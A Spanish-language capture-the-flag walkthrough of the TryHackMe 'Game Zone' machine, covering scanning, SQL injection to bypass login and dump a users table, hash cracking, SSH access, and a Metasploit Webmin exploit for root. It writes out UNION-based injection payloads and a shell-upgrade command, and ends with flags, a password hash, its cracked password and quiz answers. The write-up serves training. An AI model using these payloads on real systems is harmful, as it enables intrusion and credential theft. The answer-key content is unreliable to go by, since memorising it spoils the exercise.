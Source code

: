 # Máquina Game Zone

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Steel Mountain**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Realizamos un escaneo de puertos con la herramienta Nmap para verificar los puertos abiertos


![image](https://github.com/user-attachments/assets/33ca4154-cca0-427d-9d77-4a52a79e26ed)


Ya obtenidos los puertos abiertos buscamos sus versiones y vulnerabilidades utilizando la herramienta Nmap con diferentes parámetros.


![image](https://github.com/user-attachments/assets/328f8dde-0a61-47a6-83d8-43cc161f7935)


Conertimos el archivo PC.xml a HTML para poder visualizarlo mejor.


![image](https://github.com/user-attachments/assets/74791144-36b1-4f1c-b372-5498d992b352)



![image](https://github.com/user-attachments/assets/d9b3bfc2-4b7f-4851-93da-486bfa457ec1)



Lo convertimos a formato HTML para poder visualizarlo mejor


![image](https://github.com/user-attachments/assets/18bd259c-0c83-4df7-beeb-87d81519e6e7)



### Resumen de la Información Obtenida

|IP          | Sistema OPerativo    | Puertos/Servicios              | 
|:---------: |:--------------------:| :-----------------------------:| 
| 10.10.1.29 | Ubuntu Linux 16.04.6 | 22 ssh 7.2p2 Ubuntu 4ubuntu2.7 |
|            |                      | 80 http Apache httpd 2.4.18    |


## 2. Análisis de Vulnerabilidades / Debilidades

Realizamos un Fuzzing


![image](https://github.com/user-attachments/assets/99acaa09-8ba0-4f9f-9078-308f77013e0f)

hacemos mysql injection en login 

    ' o 1=1 -- -

![image](https://github.com/user-attachments/assets/81597124-439e-4777-837e-222c80629bc6)



Logramos entrar


![image](https://github.com/user-attachments/assets/03ee549c-c53b-43f0-baff-e93f129387a0)


Aplicamos la siguiente consulta mysql para obtener el Hostname y su versión: 

       ' UNION SELECT NULL, @@HOSTNAME, @@VERSION#


![image](https://github.com/user-attachments/assets/f2d6ebf4-420e-478c-820a-5c58ffb8b25f)


Ahora aplicamos la siguiente consulta para encontrar el usuario y la base de datos:

    ' UNION SELECT NULL, user(), database()#


![image](https://github.com/user-attachments/assets/392a9b88-23ce-42bb-b603-4ce36a398382)


Ahora con la siguiente consulta vamos a enumerar las bases de datos disponibles 

    ' UNION SELECT NULL,NULL,SCHEMA_NAME FROM information_schema.SCHEMATA#


![image](https://github.com/user-attachments/assets/ecbeea66-15f8-4bb2-a17e-44867e5a2013)


Consultamos el esquema de la tabla db:

    ' UNION SELECT NULL,TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=’db’#


![image](https://github.com/user-attachments/assets/de7e8312-951b-45d2-80ad-c06e6060bfdf)

Realizamos una enumeración de username y las pwd de la tabla users:

    ' UNION SELECT 1, username, pwd FROM users #

![image](https://github.com/user-attachments/assets/654bf580-5066-4324-b515-7234031b9dde)


Guardamos el hash que conseguimos en un archivo de texto para luego decodificarlo con la herramienta de john the ripper


![image](https://github.com/user-attachments/assets/7e5fdf15-56ba-4b87-8d67-47f5f16da43f)


## 3. Explotación

Accedemos mediante ssh


![image](https://github.com/user-attachments/assets/6efb6497-f92d-491a-8160-e28d1c8cd716)

Obtenemos el contenido de user.txt 649ac17b1480ac13ef1e4fa579dac95c


![image](https://github.com/user-attachments/assets/b8ad5fd0-2a2d-494b-a58a-249ce0cb5ed9)


Colocamos nuestra máquina como servidor para poder descargar linpeas


![image](https://github.com/user-attachments/assets/d21621e6-47d9-4bde-bb63-c1e65fd84cdb)


Lo descargamos en la maquina destino, es recomendable situarnos en la ruta /dev/shm para hacer cualquier descarga en el equipo destino


![image](https://github.com/user-attachments/assets/e82b9d00-b925-4e5f-bd32-55d35e8b06b6)


Le damos permiso de ejecución y ejecutamos linpeas.sh


![image](https://github.com/user-attachments/assets/7db2e9e1-4dca-439f-981e-8ba0292bd455)

Nos detecta que tenemos el puerto 10000 abierto
![image](https://github.com/user-attachments/assets/395e5cc5-d348-4d43-a349-32dedafc01a1)



## 4. Escalación de privilegios

Ejecutamos un Port Forwarding creando un tunel del puerto 10000 de la máquina destino hacia nuestro puerto 10000


![image](https://github.com/user-attachments/assets/8eebc555-bf6a-406b-9611-45024178546c)

Luego de haber creado el túnel, abrimos en el navegador la siguiente dirección:

    http://localhost:10000/

![image](https://github.com/user-attachments/assets/ee1f29dd-1610-4dd7-8ae1-05813ae8555e)


Entramos con el usuario agent47 y la contraseña videogamer124

![image](https://github.com/user-attachments/assets/49b217b6-adf6-4b0f-b7cc-fb2f0083cbc6)


Abrimos el Meterpreter, buscamos la vulnerabilidad para webmin y vamos a utilizar la primera opción


![image](https://github.com/user-attachments/assets/7b2fd594-53ff-4aae-9bfc-7b29eb2921e8)


Show options


![image](https://github.com/user-attachments/assets/a4ece5bd-248d-468e-a6bd-8b6ec320e456)


Modificamos los diferentes parámetros para poder ejecutar el exploit


![image](https://github.com/user-attachments/assets/18ab38f2-4cd5-4beb-8a6b-ca7720cfaace)


Ejecutamos show payloads para ver las diferentes opciones que tenemos y en este caso vamos a utilizar la opción 5


![image](https://github.com/user-attachments/assets/7f698b83-80eb-4943-ae29-8ae36c7795f8)


Ejecutamos el comando:

     set payload 5 
                              
Y le damos exploit logrando acceder como root


![image](https://github.com/user-attachments/assets/624a73aa-1975-4c1d-948f-4d69d886e745)


Mejoramos la consola con el siguiente comando: 

    python -c 'import pty; pty.spawn("/bin/bash")’ 

Y encontramos el contenido del archivo de texto root.txt = a4b945830144bdd71908d12d902adeee


![image](https://github.com/user-attachments/assets/186327ec-97c4-401e-91de-f0c83bbb0710)



## 4.Banderas 🏁

|user.txt | 649ac17b1480ac13ef1e4fa579dac95c |
|:-------:|:--------------------------------:|
|root.txt | a4b945830144bdd71908d12d902adeee |


## 5.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

• What is the name of the large cartoon avatar holding a sniper on the forum?

Agent 47

• When you've logged in, what page do you get redirected to?

portal.php

• In the users table, what is the hashed password?

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

• What was the username associated with the hashed password?

agent47

• What was the other table name?

Post

• What is the de-hashed password?

videogamer124

• What is the user flag?

649ac17b1480ac13ef1e4fa579dac95c

• How many TCP sockets are running?

5

• What is the name of the exposed CMS?

Webmin

• What is the CMS version?

1.580

•What is the root flag?

a4b945830144bdd71908d12d902adeee
